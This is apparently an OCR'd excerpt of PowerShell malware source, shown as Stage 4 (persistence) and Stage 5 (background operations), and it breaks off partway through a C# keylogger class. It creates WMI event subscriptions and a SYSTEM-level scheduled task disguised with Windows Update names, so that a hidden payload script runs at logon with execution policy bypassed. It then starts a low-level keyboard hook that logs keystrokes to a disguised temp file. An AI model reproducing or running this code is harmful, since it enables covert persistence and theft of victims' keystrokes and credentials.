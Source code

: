 ```
# Stage 4: Persistence Mechanisms
$persistenceScript = {
    $wmiArgs = @{
        EventNamespace = 'root/cimv2'
        Name = 'WindowsUpdateMonitor'
        Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LogonSession'"
        QueryLanguage = 'WQL'
    }
    $filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $wmiArgs

    $consumerArgs = @{
        Name = 'WindowsUpdateTask'
        CommandLineTemplate = "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File `"$env:temp\payload.ps1`""
    }
    $consumer = New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $consumerArgs

    $bindingArgs = @{
        Filter = [Ref]$filter
        Consumer = [Ref]$consumer
    }
    New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $bindingArgs

    $taskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ExecutionPolicy Bypass -WindowStyle Hidden -File `"$env:temp\payload.ps1`""
    $taskTrigger = New-ScheduledTaskTrigger -AtLogOn
    Register-ScheduledTask -TaskName "WindowsUpdateMaintenance" -Action $taskAction -Trigger $taskTrigger -User "SYSTEM" -RunLevel Highest -ErrorAction SilentlyContinue
}

Invoke-Command -ScriptBlock $persistenceScript

# Stage 5: Background Operations
Start-Job -Name "Keylogger" -ScriptBlock {
    Add-Type -TypeDefinition @"
    using System;
    using System.IO;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
    using System.Windows.Forms;
    
    public class Keylogger {
        private const int WH_KEYBOARD_LL = 13;
        private const int WM_KEYDOWN = 0x0100;
        private static IntPtr _hookID = IntPtr.Zero;
        private static string logPath = Path.Combine(Path.GetTempPath(), "systemlog.txt");
        
        [DllImport("user32.dll")]
        private static extern IntPtr SetWindowsHookEx(int idHook, LowLevelKeyboardProc lpfn, IntPtr hMod, uint dwThreadId);
        
        [DllImport("user32.dll")]
        [return: MarshalAs(UnmanagedType.Bool)]
        private static extern bool UnhookWindowsHookEx(IntPtr hhk);
        
        [DllImport("user32.dll")]
        private static extern IntPtr CallNextHookEx(IntPtr hhk, int nCode, IntPtr wParam, IntPtr lParam);
        
```